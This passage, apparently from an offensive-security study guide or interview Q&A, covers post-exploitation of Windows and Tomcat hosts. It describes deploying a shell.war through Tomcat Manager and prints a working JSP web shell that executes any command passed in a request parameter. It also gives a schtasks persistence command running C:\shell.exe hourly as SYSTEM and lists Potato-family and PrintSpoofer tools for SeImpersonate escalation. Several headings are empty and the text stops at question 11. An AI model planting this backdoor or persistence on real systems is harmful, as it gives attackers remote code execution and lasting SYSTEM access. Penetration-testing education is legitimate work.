 - Deploy via Tomcat Manager (/manager/html):

Log in → Upload `shell.war`.

Access the shell at `http://<target_IP>:8080/shell/`.

- Catch the shell (on your machine)

b. Exploit Known Vulnerabilities (If No Creds)

**Privilege Escalation (Windows)**

**Pivoting (Route Traffic Through Compromised Host)**

**Maintaining Access**

a. Install a Webshell

Upload a JSP backdoor (e.g., `cmd.jsp`):

```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
if (request.getParameter("cmd") != null) {
    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while (disr != null) {
        out.println(disr); 
        disr = dis.readLine();
    }
}
%>
````

b. Persistence via Scheduled Task

```powershell
schtasks /create /tn "UpdateTask" /tr "C:\shell.exe" /sc hourly /mo 1 /ru SYSTEM
```

### 10. Say you've gotten a shell on the Windows host, and you see the account your shell is running as has the `SeImpersonate` privilege. How could you use this for privilege escalation?

`SeImpersonatePrivilege` allows a process to impersonate other users (including SYSTEM) under certain conditions. It’s commonly abused via:

- Potato-family exploits (Hot Potato, Juicy Potato, Rogue Potato, PrintSpoofer, GodPotato).

- Named pipe impersonation (abusing Windows services that run as SYSTEM).

### 11. You've elevated privileges and obtain a shell as `NT AUTHORITY\SYSTEM`, what would you do now? You are in an Active Directory environment.
